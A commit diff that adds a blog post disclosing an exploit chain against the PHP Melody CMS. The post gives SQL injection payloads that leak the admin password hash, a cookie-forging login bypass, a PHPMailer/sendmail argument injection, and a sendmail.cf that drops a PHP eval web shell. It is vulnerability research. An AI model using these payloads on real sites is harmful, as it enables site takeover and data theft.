

Before and after one commit to HarryR/logicista, a Jekyll site: the page built from index.html, in a window 1280 px wide, cut to the strip 0-694 px from the top of the page. Shown: the whole strip, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; Markdown is read by kramdown in place of the engine named in the settings; some of the changed lines change nothing that is shown.

Commit message:
Tweaked CSS and added another post

````diff
--- /dev/null
+++ b/_posts/2017-01-20-phpmelody-multiple-vulnerabilities.markdown
@@ -0,0 +1,207 @@
+---
+layout: post
+title:  PHP Melody - Multiple Vulnerabilities
+date:   2017-01-20 00:00:00
+categories: [phpmelody, security, exploit, sql, injection, vulnerability]
+coverimage: /img/posts/flower-macro.jpg
+covertitle: Flower Macro, by [George Hodan](http://www.facebook.com/hodanpictures?ref=hl)
+---
+
+What's interesting when I come across a new piece of software are how the initial impressions change made after reading the code. If you're looking to setup a new YouTube&reg; style website PHP Melody ranks highly for many search terms, it's convincingly marketed and looks polished even to an expert eye.
+
+But what about their claim: **Secure code with 5 years of time-proven reliability**. I wouldn't be so sure about that claim considering the list of exploits below and the general theme of this post!
+
+ * [2015 - PHP Melody v2.3 - SQL Injection](https://packetstormsecurity.com/files/135079/PHP-Melody-CMS-2.3-SQL-Injection.html)
+ * [2013 - PHP Melody v1.9 - XSRF](https://github.com/BuddhaLabs/PacketStorm-Exploits/blob/master/1308-exploits/phpmelody-xsrf.txt)
+ * [2009 - PHP Melody v1.5.3 - Arbitrary File Upload Injection](https://www.exploit-db.com/exploits/9239/)
+
+When we audit the source code for an application it's fairly easy to get a feel of how it's been developed, what the potential weak points are going to be, and sometimes it takes just a few minutes to come to the conclusion that there will be an exploit even if it hasn't been found yet. In the industry we call this 'code smell'.
+
+One thing we look at is consistency and the likelyhood for a developer to make mistakes when using the different code patterns or techniques, having worked as a developer for a significant chunk of time the PHP Melody code base instantly struck a chord - it's a consistent mess of potential pitfalls, general bad practices and high chances that security slip-ups will be made.
+
+
+## SQL Injection and Inconsistency
+
+SQL queries are littered throughout the code, sure it may be spaghetti, but the problem is how the SQL queries are made; it looks like something taken directly from a 'Learn PHP in 24 hours' book: lots of string concatenation, variables and a variety of differently applied functions to prepare the raw user data for inclusion into the SQL query.
+
+When dealing with this type of code it's only a matter of time and analysis before we find one instance where the developer failed to follow the magic and slightly irrational sequence of steps needed to prevent their users from getting owned, and in `comment.php` we found one such occurrence:
+
+```php
+//  if (!$logged_in) { ...
+	$ip = secure_sql(pm_get_ip());
+	$user = trim($_POST['username']);
+	$user = $emoji_client->toShort($user); // convert unicode to shortname
+	$user = strip_tags($user);
+	$user = specialchars($user, 1);
+	$user = secure_sql($user);
+	$user_id = $_POST['user_id'];
+//  }
+
+	$added = time();
+	// ** PREP THE COMMENT FOR MYSQL OR REMOVE IT IF IT'S SPAM ** //
+	$comment = trim($_POST['comment_txt']);
+	$comment = $emoji_client->toShort($comment); // convert unicode to shortname
+	$comment = nl2br($comment);
+	$comment = removeEvilTags($comment);
+
+// ...
+
+	if ($comment != '')
+	{
+		$sql = "INSERT INTO pm_comments SET uniq_id = '".$vid."', username = '".$user."', comment = '".secure_sql($comment)."', user_ip = '".$ip."', added = '".$added."', user_id = '".$user_id."'";
+```
+
+At this point we could have directed [sqlmap](http://sqlmap.org/) at it and let it do its thing, but while the default out-of-the-box install of PHP Melody does allow anonymous comments there is a CAPTCHA, not to mention the last thing we want to do is spam a video with thousands of comments containing SQL injection tests.
+
+Another tool which could have helped detect this vulnerability and reduced the amount of analysis time it took to discoverer is [Phuzz](https://github.com/HarryR/phuzz), an automatic taint-style tracing fuzzer for PHP which highlights where user input is passed to sensitive functions or system calls, however it's still in the early stages of development and doesn't yet allow you to analyse traces from normal web browsing.
+
+
+## Leveraging the Initial Vulnerability
+
+So, you've found a SQL injection bug and want to get the most out of it, you can't use `sqlmap` because of a CAPTCHA, what's the best or worst thing you can do with SQL injection in an `INSERT` statement?
+
+```sql
+INSERT INTO pm_comments
+   SET uniq_id = 'ac0266df0', username = 'admin', comment = 'derp', user_ip = '127.0.0.1', added = 1483497600, user_id = '1'
+```
+
+The `SET` syntax doesn't allow for the `comment` field to be specified multiple times, but by using the `ON DUPLICATE KEY UPDATE` query syntax and setting the `id` to that of an existing comment then fields can be overridden with arbitrary data.
+
+```sql
+INSERT INTO pm_comments
+   SET uniq_id = 'ac0266df0', username = 'admin', comment = 'derp', user_ip = '127.0.0.1', added = 1483497600, user_id = '1'
+   , id = 1, approved = 1, report_count = 0
+   ON DUPLICATE KEY UPDATE comment = CONCAT(comment, '<script>alert(1);</script>'),
+   	user_ip = '127.0.0.1';
+```
+
+There are two options which come to mind that can work within the limitations of the `INSERT` statement:
+
+ * Append JavaScript to the most popular comment
+ * Retrieve data from the database using a sub-select
+
+Both of these are useful, but the second turned out to be a much easier way of achieving the aim of elevating privileges to take-over the site and gain full access so its administration panel and user database.
+
+
+## Authentication, Security and More Fail
+
+Knowing that anything can be read from the database provides a read primitive, but the CAPTCHA makes it tedious to automate and very slow to retrieve large amounts of data from the site. Instead we are going to attack the authentication mechanisms which allow persistent login via cookies, or 'Remember Me'.
+
+PHP Melody uses two cookies for the auto-login functionality:
+
+ * `melody_XXX` - Username
+ * `melody_key_XXX` - Login-key
+
+Where `XXX` is an `MD5` hash of the base URL of the site from `settings.php`, and the login-key is an `MD5` hash of the `password` column from the users table. So even though the `password` column is an `MD5` hash of the password, knowing that alone allows us to login as that user even though the underlying password isnt known.
+
+Using the SQL injection and a subselect this information can be included at the end of the existing comment without displaying on the site:
+
+```sql
+INSERT INTO pm_comments SET uniq_id = 'ac0266df0', username = 'admin', comment = 'derp', user_ip = '127.0.0.1', added = 1483497600, user_id = '1'
+, id = 1, approved = 1, report_count = 0
+ON DUPLICATE KEY UPDATE comment = CONCAT(comment,
+	'<!-- PASSWD ',
+	(SELECT CONCAT(username, ' - ', password) FROM pm_users WHERE power = '1' LIMIT 1),
+	' -->'),
+	user_ip = '127.0.0.1';
+```
+
+For a moment we're going to overlook the fact that modern password storage guidelines are completely overlooked, a single round of `MD5` without any cryptographic salt should be considered broken and almost as bad as plaintext; that and the rest of the code makes it seem like their development team is stuck in about 2004 and haven't learned much since.
+
+## Admin to Shell
+
+Surprisingly the code for the administration section, despite drowning in even more SQL injection, wasn't directly vulnerable to code execution or arbitrary file upload bugs, instead we rely on the go-to method for code execution for late 2016 and early 2017: PHPMailer and `mail()`.
+
+PHPMailer v5.2.13 is used to send all e-mail, but to trigger the `mail()` command injection bug it's necessary to set the `From:` address which isn't usually isn't possible as an anonymous user.
+
+The `admin-ajax.php` file contains a function called `testmail` which allows you to control all parameters except for the body and the subject, the code for sending the e-mail is:
+
+```php
+switch ($action)
+{
+	case 'testmail':
+
+		extract($_POST);
+
+		// *snip*/
+
+		$mail = new PHPMailer();
+		$mail->setLanguage('en', ABSPATH .'/include/phpmailer/language/');
+
+		if ($mail_smtp == '1')
+		{
+			$mail->IsSMTP();
+		}
+
+		$mail->Subject = 'Test email from '. _SITENAME;
+		$mail->Host 	= $mail_server;
+		$mail->SMTPAuth = true;
+		$mail->Port 	= $mail_port;
+		$mail->Username = $mail_user;
+		$mail->Password = $mail_pass;
+		$mail->setFrom($contact_email, html_entity_decode(_SITENAME, ENT_QUOTES));
+		$mail->CharSet = "UTF-8";
+		$mail->AddAddress($contact_email);
+		$mail->IsHTML(false);
+```
+
+Exploits for PHPMailer ([CVE-2016-10033](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html) and [CVE-2016-10045](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10045-Vuln-Patch-Bypass.html)) allow command-line arguments to be given to `sendmail` after bypassing escaping and validation in the `From:` address. Two arguments which can be used for exploitation are:
+
+ * `-X` - Write log to arbitrary file, including the Subject and message body
+ * `-OAliasFile` - Read aliases from an arbitrary file, perform commands on receipt of a message
+ * `-C` - Read Sendmail configuration from an arbitrary file
+
+The PHPMailer proof-of-concepts rely on controlling the message body to insert PHP code into an arbitrary web accessible file, but to use this in PHP Melody we would have to override the `_SITENAME` variable (configured via 'Site title') - however, stuffing a snippet of PHP code into the title of every page is a dead giveaway as an indicator of compromise even if it's only temporary.
+
+A more novel option for exploitation is possible by uploading a sendmail configuration file instead of an image, the `upload_image.php` admin utility isn't susceptable to any interesting bugs, but it doesn't validate the contents of the file and can be used as such:
+
+```
+curl -H 'Cookie: melody_..=admin; melody_key_...=...;' \
+	-F doing=X \
+	-FFilename=x.jpg -FFiledata='@sendmail.cf;type=application/octet-stream' \
+	http://localhost/admin/upload_image.php
+```
+
+This will give you the URL of a .jpg file in the `uploads/articles` directory, then by visiting `/admin/sys_phpinfo.php` the full path for that file is known and can be included in the exploit string:
+
+```
+"x\" -oQ/tmp -C/var/www/uploads/articles/d473ef85.jpg x"@localhost
+```
+
+Another problem encountered which could stop any attempts to exploit this bug is the e-mail address is limited in length by the form validation, so if the full path to the uploaded file is too long it will display an error message.
+
+## Sendmail and Beyond
+
+Now, the fun bit is writing a sendmail configuration file, if you've never encountered this beast before I recommend finding a local Occult bookshop and reading up on human sacrifices and ways to sway evil forces in your favour, the raw configuration format is pedantic and esoteric to say the least.
+
+Deep within the Sendmail man pages and documentation there's an interesting configuration directive which can execute arbitrary commands on startup, for a while I was concerned that I'd have to write a full `sendmail.cf` file from scratch.
+
+The `Fx|/path/to/exe` syntax will load class definitions by executing a program, unfortunately while you can pass multiple arguments by quoting them you can't pass arguments with spaces which means `sh -c` is out of the question. Thankfully PHP can run code from the command-line and doesn't need whitespace.
+
+A two-line `sendmail.cf` file I ended up with is:
+
+```
+V10/Berkeley
+Fhax|"/usr/bin/env php -r file_put_contents('/var/www/html/uploads/articles/exploit.php',base64_decode('PD9waHAgZXZhbCgkX0dFVFsneCddKTsK'));"
+```
+
+This dumps a basic PHP web-shell into `/var/www/html/uploads/articles/exploit.php`, the arbitrary sized base64 encoded payload could be changed to drop a [Weevely3](https://github.com/epinna/weevely3) agent, or `eval` code instead.
+
+If the target is using Postfix, Qmail or a lightweight `sendmail` alternative the `-X` technique will still work, but the site-name will need to be overridden with a PHP backdoor...
+
+
+## Summary and Recommendations
+
+What can we do to prevent this from happening in future? Realistically the developers of PHP Melody will just patch that specific instance of SQL injection and move on while leaving the **Secure code with 5 years of time-proven reliability** claim on their website.
+
+Unless the developers of PHP Melody change their development practices and/or re-code the software using industry standard patterns and frameworks which prevent a wide range of security holes from existing in the first place then the likelyhood of more vulnerabilities being discovered in future is fairly high.
+
+What about the people who rely on this software? Deploying a Web Application Firewall, even something free and open-source like mod_security with a good rule-set could provide adequate defence against the initial SQL injection vulnerability.
+
+**[OWASP Top 10](https://www.owasp.org/index.php/Top_10_2013-Top_10)**
+
+ * A1 - Injection
+ * A6 - Sensitive Data Exposure
+ * A9 - Using Components with Known Vulnerabilities
+
+**Overall CVSS Score: 9.8**
--- a/css/main.css
+++ b/css/main.css
@@ -267,6 +267,11 @@
 .highlight  {
 	background: #f5f5f5;
 	overflow: auto;
+	margin: 10px;
+	padding: 10px;
+}
+.highlight > pre {
+	margin: 0;
 }
 .highlight .c { color: #999988; font-style: italic } /* Comment */
 .highlight .err { color: #a61717; background-color: #e3d2d2 } /* Error */
````
Also changed, not shown: img/posts/flower-macro.jpg (added), 1 other file.
